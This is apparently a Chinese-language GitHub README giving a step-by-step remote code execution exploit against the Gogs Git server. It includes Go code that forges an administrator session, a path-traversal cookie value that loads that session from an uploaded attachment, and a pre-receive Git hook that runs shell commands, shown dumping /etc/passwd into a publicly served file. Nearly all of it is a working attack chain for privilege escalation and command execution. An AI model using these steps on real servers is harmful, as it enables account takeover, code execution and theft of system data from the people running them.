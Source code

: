 # Gogs_RCE


## 0x01 前台注册普通账号

![](./test.jpg)

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```
![](./data.png)
会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

![](./new_release.png)

附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号
![](./cookie.png)
![](./cookie-admin.png)

## 0x05 仓库-页面设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。

## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：例如 /home/git/gogs

shell 脚本内容：

`cat /etc/passwd > /home/git/gogs/public/js/1.js`

网站路径：

`https://127.0.0.1:3000/js/1.js`


